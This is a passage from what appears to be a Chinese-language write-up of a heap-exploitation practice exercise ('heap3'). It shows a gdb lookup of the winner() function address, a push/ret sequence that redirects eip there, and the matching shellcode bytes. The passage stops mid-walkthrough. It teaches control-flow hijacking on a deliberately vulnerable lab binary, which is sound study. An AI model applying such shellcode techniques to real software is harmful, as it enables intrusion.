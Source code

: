 <img src=".\heap3-analysis-6.png" style="zoom:67%;" />

查看`winner()`函数的入口地址：

```shell
(gdb) p winner
```

<img src=".\heap3-analysis-9.png" style="zoom:67%;" />

为了让eip能跳转到`winner()`，我们可以利用以下两段指令：

```ruby
push 0x08048864	# 将winner的入口地址压到栈顶
ret	# ret会将栈顶存储的值作为返回地址赋值给eip
```

以上指令对应的shellcode为：\x68\x64\x88\x04\x08\xc3。

查看汇编代码：
